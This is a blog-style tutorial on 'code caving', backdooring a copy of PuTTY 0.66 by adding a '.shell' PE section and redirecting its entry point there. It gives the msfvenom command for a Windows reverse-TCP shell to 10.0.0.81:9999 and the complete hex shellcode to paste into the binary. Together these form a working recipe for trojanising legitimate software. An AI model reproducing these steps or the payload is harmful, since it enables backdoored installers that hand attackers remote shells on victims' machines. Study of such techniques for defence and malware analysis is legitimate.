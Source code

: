 ```yaml
---
layout: single
title: Code caving & backdooring Windows PE files
---
```


Code caving is a technique deployed by threat actors to run malicious shellcode without the valid PE space of a regular program. It's a technique where an actor discovered an un-used or non-optimized part of code within a compiled program that they can use for hijacking the execution flow, which can lead to the application executing a malicious shellcode payload.

### Thanks Wikipedia
> A code cave is a series of null bytes in a process's memory. The code cave inside a process's memory is often a reference to a section of the code's script functions that have capacity for the injection of custom instructions. For example, if a script's memory allows for five bytes and only three bytes are used, then the remaining two bytes can be used to add additional code to cript without making significant changes. 

---

This walkthrough will be utilizing an older version of Putty, Putty v0.66, which can be downloaded from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/releases/0.66.html).

----

We can start by opening up putty.exe within CFF Explorer to view the PE data.

![code caving 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_1.png)

Open up the section headers tab and we need to add a new header, this header will be utilized for malicious purposes. Go to `Section Headers [x]` > Right-click and select `Add Section (Empty Space)`, and adjust the size of the section to 1000 spaces. Then name your new section header. I will be naming it `.shell`. Adding these spaces will allow the program to be sen as a legitimate application instead of just throwing you an error and crashing if you don't have data. This blank data will also be utilized soon.

![code caving 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_2.png)

Now we can open up our new binary in Immunity Debugger. If you run the application it will show "Program entry point" on the bottom left of Immunity, this is what we want to hijack to point to our soon to be malicious `.shell` segment.

![code caving 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_3.png)

From here you copy the `.shell` section headers address and edit the Program entry point to a `JMP <SECTION ADDRESS>`. 

![code caving 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_4.png)

![code caving 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_5.png)

Now you can press `F7` and step into the newly edited JMP call, this will lead to our new section we created.

![code caving 6](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_6.png)

Now you also want to edit the new section in Immunity and add a `PUSHFD` to the start of your malicious new section. Assemble it when done.

Now you can generate your msfvenom payload, use a EXITFUN=seh to ensure it handles proper exiting to add to the stability and reliability of your shell. Generate it in hex format you you can now copy past this into Immunity Debugger into your new malicious section.

```
└─▪ ./msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.81 LPORT=9999 -f hex EXITFUNC=seh
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of hex file: 648 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b5

92001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b6159

5a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b89001000029c454506829806b00ffd5505050504050405068ea0fdfe0ffd5976

a05680a000051680200270f89e66a1056576899a57461ffd585c0740cff4e0875ec68f0b5a256ffd568636d640089e357575731f66a125956e2fd66c74424

3c01018d442410c60044545056565646564e565653566879cc3f86ffd589e04e5646ff306808871d60ffd5bbfe0e32ea68a695bd9dffd53c067c0a80fbe07

505bb4713726f6a0053ffd5
```


----
